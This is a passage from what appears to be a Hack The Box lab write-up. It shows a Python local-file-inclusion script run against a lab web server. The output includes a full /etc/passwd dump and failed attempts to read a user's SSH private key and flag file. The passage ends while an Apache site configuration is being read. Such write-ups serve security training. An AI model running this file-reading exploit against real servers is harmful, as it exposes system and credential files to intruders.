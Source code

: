 ```

result = request.text.find("<!DOCTYPE html>")
print(request.text[:result].strip())

```

Then we can get the file `/etc/passwd`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Synacktiv]
└─$ python3 LFI.py /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:104:110:MySQL Server,,,:/nonexistent:/bin/false
elonmusk:x:1000:1000:,,,:/home/elonmusk:/bin/bash

```

`elonmusk` would be our target, I hope I can get his `id_rsa`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Synacktiv]
└─$ python3 LFI.py /home/elonmusk/.ssh/id_rsa

                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Synacktiv]
└─$ python3 LFI.py /home/elonmusk/flag.txt   


```
Very sad, `www-data` seems don't have the access to `/home/elonmusk`

Let's check the `apache2` configuration files and Learn how this site works
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Synacktiv]
└─$ python3 LFI.py /etc/apache2/sites-enabled/000-default.conf 
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog /error.log
        CustomLog /access.log combined
</VirtualHost>
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        ServerName dev.hackfail.htb
```